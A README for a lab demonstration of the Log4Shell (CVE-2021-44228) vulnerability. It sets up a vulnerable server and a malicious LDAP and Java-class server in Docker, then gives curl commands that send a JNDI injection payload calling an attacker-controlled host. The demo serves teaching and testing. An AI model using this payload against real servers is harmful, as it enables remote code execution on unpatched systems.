 # Log4Shell in action

This project aims to demonstrate how the Log4Shell / CVE-2021-44228 vulnerability works.

## Requirements

You only need to have Docker installed. Ideally you have two different virtual machines. One for the _vulnerable server_ and one for the _malicious server_ that will host the malicious codebase and a LDAP server.

Optionally you have _Make_ and _Docker Compose_ installed but this is **not** necesarry since this repo also contains a `make.sh` to skip these requirements and use them from within a docker container.

## Install Docker (optionally)

If you haven't already, here are the steps to install Docker on a Debian VM. You can use these steps: https://gist.github.com/mschmnet/5d8c979920801c73e148c901a5989b46

## Download the repository

```
git clone git@github.com:mschmnet/Log4Shell-demo.git 
```

## Install vulnerable server

```
cd vulnerable-server
../make.sh run # Or you coud execute make run if you hade Make and Docker Compose installed
```

## Start malicious server

This will start a basic LDAP server and basic Python server to serve the malicious Java classes.

You need to provide the IP address or domain name where these servers will be available

```
cd malicious-server
../make.sh run CODEBASE_URL=SERVER_IP_OR_DOMAIN_NAME # Optionally make instead of ../make.sh if you had Make and Docker Compose installed
``` 

## How to attack the target server

```
curl -X GET -G --data-urlencode 'foo=${jndi:ldap://IP_OR_DOMAIN_MALICIOUS_SERVER:1389/a}' http://IP_OR_DOMAIN_VULNERABLE_SERVER/some-endpoint

```
or just 
```
curl --location --request GET 'http://IP_OR_DOMAIN_VULNERABLE_SERVER/some-endpoint?foo=%24%7Bjndi%3Aldap%3A%2F%2FIP_OR_DOMAIN_MALICIOUS_SERVER%3A1389%2Fa%7D'
```

where `${jndi:ldap://IP_OR_DOMAIN_MALICIOUS_SERVER:1389/a}` is just URL encoded


## How to stop any of them

```
../make.sh stop
```

## How to show the logs 

```
../make.sh logs 
```

## Slides

https://raw.githubusercontent.com/mschmnet/Log4Shell-demo/main/pdf/slides.pdf
